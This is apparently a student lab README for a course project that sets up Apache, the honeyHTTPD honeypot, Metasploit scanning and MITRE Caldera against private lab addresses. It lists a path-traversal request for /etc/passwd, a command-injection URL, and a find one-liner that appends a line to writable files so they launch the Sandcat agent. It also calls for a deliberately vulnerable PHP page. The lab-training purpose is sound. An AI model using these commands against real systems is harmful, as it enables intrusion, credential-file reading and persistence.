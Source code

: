 # group9-344
ICS3444 project
To run apache2:
- sudo apt install apache2 -y.
- sudo systemctl start apache2


# Honeypot (honeyHTTPD) setup:
1- clone repo: Using command git clone https://github.com/bocajspear1/honeyhttpd.git

2- Navigate to the Directory honeyhttpd

3- intall vitual enviroment: sudo apt install python3-venv

4- create vitual enviroment: python3 -m venv venv

5- activate it: source venv/bin/activate

6- install dependencies: pip install -r requirements.txt

7- use this command to generate keys: Using command openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.pem -days 365 -nodes

8- copy the config.json.default to config.json and add in it "key_path": "server.key" after "cert_path": "server.pem",
Then use start.py --config config.json to start the honeypot


# Kali Metasploitable commands:
1- "nmap -sV 192.168.56.104"

2- "sudo msfconsole"

3- "search apache"

4- choose a general service auxiliary/scanner/http/apache_userdir_enum

5- "set RHOSTS 192.168.56.104"

6- "use auxiliary/scanner/http/apache_userdir_enum"

7- "exploit"

# Caldera commands:
-curl http://192.168.56.104

-clone to caldera: git clone https://github.com/mitre/caldera.git --recursive

-python3 server.py --insecure

-curl http://192.168.13.165:80

-curl http://192.168.13.165:80/../../../../etc/passwd

-curl "http://192.168.13.165:80/execute?cmd=ls"

-For excutable files: find / -type f -size -500k -maxdepth 5 -perm -333 2>/dev/null -exec sh -c 'grep -qF "54NDC47_SCRIPT" "{}" || echo "#54NDC47_SCRIPT\n" "chmod +x sandcat.go-linux && sandcat.go-linux" >> "{}"; ls "{}" ' \; | echo "complete"

-and more inner operations within Caldera ( not manual)


# Custom Scripts:
- nano /var/www/html/vulnerable_page.php
- create vunrable code
- use comprimizing code above ( victim scripts or honey scritps )
